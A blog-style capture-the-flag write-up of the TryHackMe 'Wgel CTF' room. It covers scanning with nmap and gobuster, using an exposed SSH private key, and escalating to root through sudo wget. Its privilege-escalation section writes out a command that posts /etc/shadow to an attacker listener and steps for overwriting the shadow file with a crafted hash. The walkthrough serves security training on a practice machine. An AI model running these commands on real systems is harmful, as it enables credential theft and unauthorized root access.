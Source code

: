 ```yaml
---
title: "TryHackMe - Wgel CTF"
author: Nasrallah
description: ""
date: 2022-04-29 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, sudo, wget]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. We are doing [Wgel CTF](https://tryhackme.com/room/wgelctf) from [TryHackMe](https://tryhackme.com). We start by enumerating the machine with nmap, we find ssh on port 22 and a webserver on port 80. We run a directory scan and find private key, we use the latter with a username we found in the webpage source code to login with ssh. After getting access to the machine we find that we can run `wget` as root, we leverage that to get root access by replacing the shadow file with one we modified. Let's get started.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Terminal
Nmap scan report for 10.10.165.173
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We got 2 open ports. Let's check the webserver on port 80.

## Web

Navigating to the webpage we get this.

![](/assets/img/tryhackme/wgel/1.png)

It's the default page for apache, let's view the source code.

![](/assets/img/tryhackme/wgel/2.png)

We found a possible username.

## Gobuster

Let's run a directory scan with `gobuster`.

![](/assets/img/tryhackme/wgel/3.png)

We found a directory named **sitemap**, let's go see what' there.

![](/assets/img/tryhackme/wgel/4.png)

It's a UNAPP template page, nothing really useful, let's run another directory scan on sitemap.

![](/assets/img/tryhackme/wgel/6.png)

Wow, we found **.ssh** directory, let's go take a look and hope there is a private key waiting for us there.

![](/assets/img/tryhackme/wgel/5.png)

Great! We got an ssh private key.


# **Foothold**

Let's copy that key to a file in our machine and give it the right permission, then let's use it with the username we found earlier to login with ssh.

![](/assets/img/tryhackme/wgel/7.png)

Nice, we got access to the box. Let's escalate our privileges now.


# **Privilege Escalation**

First, let's check our current privileges with the command `sudo -l`.

![](/assets/img/tryhackme/wgel/8.png)

We see that we can run every command as root, but we need a password for that, on the other hand, we can run `wget` with no password.

I searched on Google for a way to escalate privileges with `wget` and found this [article](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/) explaining how to do so.

What we can do is read the /etc/shadow file, get a hash, and try to crack that hash. First let's setup a listener on our machine with the command `nc -lvnp 80` 

![](/assets/img/tryhackme/wgel/9.png)

Now on the compromised machine, run `sudo wget --post-file=/etc/shadow {attacker_ip}`

![](/assets/img/tryhackme/wgel/10.png)

Now going back to our listener, we should have received the content of **shadow** file.

![](/assets/img/tryhackme/wgel/11.png)

Great! We have the shadow file, I've tried to crack the hash but got nothing.

One other thing we can try is to modify the shadow file by putting our own crafted hash and upload it the the compromised machine.

First, let's generate a new password hash using the command `openssl passwd -6 pass123`.

![](/assets/img/tryhackme/wgel/12.png)

The password i used is **pass123**, you can choose whatever you want.

Let's replace jessie's hash with the one we just created.

![](/assets/img/tryhackme/wgel/13.png)

Great! Now let's upload the file to the machine using the command `sudo wget http://10.11.31.131/shadow --output-document=shadow`

> Note: You have to change the directory to **/etc** before uploading the file.

![](/assets/img/tryhackme/wgel/14.png)

Now that we replaced the shadow file, let's change our user to root. We know that jessie can execute any command as root using a password, let's run the command `sudo su` and submit the password we specified while creating the hash, in my case it's `pass123`.

![](/assets/img/tryhackme/wgel/15.png)

Great! We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/